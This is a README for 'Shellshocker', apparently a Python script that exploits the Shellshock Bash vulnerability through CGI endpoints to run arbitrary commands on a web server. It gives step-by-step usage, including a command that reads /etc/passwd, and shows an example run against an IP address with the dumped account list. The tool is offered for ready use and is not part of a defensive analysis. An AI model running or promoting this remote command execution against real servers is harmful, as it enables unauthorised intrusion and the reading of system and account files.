 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easyest way to use it, you can use "Shellshocker".
Avoid tinkering with the user-agent and feels like a shell directly.

Using:
  1. Run the script with python
    "python shellshocker.py http://exam.com/cgi-bin/cat"

  2. Hit command and press enter:
    "cat /etc/passwd"

  3. Read the output :)

Example:
  python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
  Shellshock Command: cat /etc/passwd
  
  root:x:0:0:root:/root:/bin/bash
  bin:x:1:1:bin:/bin:/sbin/nologin
  daemon:x:2:2:daemon:/sbin:/sbin/nologin
  adm:x:3:4:adm:/var/adm:/sbin/nologin
  lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
  sync:x:5:0:sync:/sbin:/bin/sync
  shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
  halt:x:7:0:halt:/sbin:/sbin/halt
  mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
  uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
  operator:x:11:0:operator:/root:/sbin/nologin
  games:x:12:100:games:/usr/games:/sbin/nologin
  gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
  ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
  nobody:x:99:99:Nobody:/:/sbin/nologin
  vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
  saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
  postfix:x:89:89::/var/spool/postfix:/sbin/nologin
  sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
  bynarr:x:500:501::/home/bynarr:/bin/bash
  apache:x:48:48:Apache:/var/www:/sbin/nologin
  apophis:x:501:502::/home/apophis:/bin/bash
